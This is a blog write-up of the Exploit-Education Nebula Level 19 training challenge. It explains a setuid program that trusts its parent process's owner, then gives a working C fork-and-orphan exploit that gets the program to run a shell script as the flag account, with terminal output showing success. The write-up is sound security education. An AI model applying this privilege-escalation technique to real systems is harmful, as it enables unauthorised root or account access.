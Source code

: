 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 19"
date:   2019-08-25 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 19](https://exploit.education/nebula/level-19/)

## Challenge
There is a flaw in the below program in how it operates.

To do this level, log in as the `level19` account with the password `level19`. Files for this level can be found in `/home/flag19`.
## Vulnerability
This is an odd vulnerability and it happens due too how linux system operated.  
```cpp
int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
      printf("Unable to check parent process\n");
      exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
      /* If root started us, it is ok to start the shell */

      execve("/bin/sh", argv, envp);
      err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```
So the program will execute a shell if we run the program is root. But how can we run it as root?. There is a concept of process inheritance in Linux.
>Each process has a parent, and a parent process can have multiple children. The exception to this rule is the init process, which is started at system boot. The init process is its own parent and is the parent, either directly or indirectly, of all other processes running on the system. This process is run as root and it’s Process ID (PID) is 1:
Lets take a look at the program.

```bash
level19@nebula:~$ ps aux |grep 'PID\|init' 
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.3   3200  1796 ?        Ss   11:32   0:00 /sbin/init
level19   1336  0.0  0.1   4156   552 pts/0    R+   11:45   0:00 grep --color=auto PID\|init
```
>If a process spawns a new child (e.g. through the fork() system call in C), it becomes the parent of that child process. If the parent is killed before the child, the child process is said to become an orphan process. All orphan processes are adopted by init. 

[Source](https://decepticode.wordpress.com/2016/05/07/nebula-level19/) (yeah I know its another writeup. But I had no clue how this stuff works do i had to look up for other writeups. )

So if we can run a program that will create a `child process` and if the `parent process` dies before the `child process` we will have `PID` of `1`. And then we can exploit this line.
```cpp
/* Get the parent's /proc entry, so we can verify its user id */
 
snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());
```
The `getpid()` will return the `PID` of `root`.  
Lets write a program that will spawn a `child` and then we can make the `child` sleep while the `parent` exits. (This sentence sounds a bit weird)
```cpp
#include <stdio.h>
#include <unistd.h>

int main(void){
  pid_t pid=fork();
  if(pid==0) /*child process*/
  {
        char *cmd = "/home/flag19/flag19";
        char *args[] = { "/bin/sh","-c","/tmp/run.sh"};

        sleep(3);
        printf("Pid: %d\n", getppid());
        execv(cmd,args);
        return 0;
  }
  else /*parent process*/
  {
        return 0;
  }
}
```
This program will run the `flag19` program and it will execute the contents of `run.sh` file. The `run.sh` file will run the `getflag` command and save the output to a file named `/tmp/out`.  
Let try it out.
```bash
level19@nebula:/tmp$ cat run.sh 
getflag > /tmp/out
level19@nebula:~$ gcc fork.c
level19@nebula:~$ ./a.out
level19@nebula:~$ Pid: 1

level19@nebula:~$
```
So we have `PID` of `1`. Lets check the output of `/tmp/out`
```bash
level19@nebula:/tmp$ cat out
You have successfully executed getflag on a target account
```
### Solved!

## After Thoughts
Haw mahn that was a hell of a ride. I have finally completed the `nebula` section of Exploit-Education. I am planning to continue with Fusion or maybe something else. I wouldn't say that I enjoyed every level (because sometimes i get frustrated when i can't find any vulnerability. Yeah i know its part of the learning and i am working on it) but I definitely learned  a lot of strange ways to exploit programs. 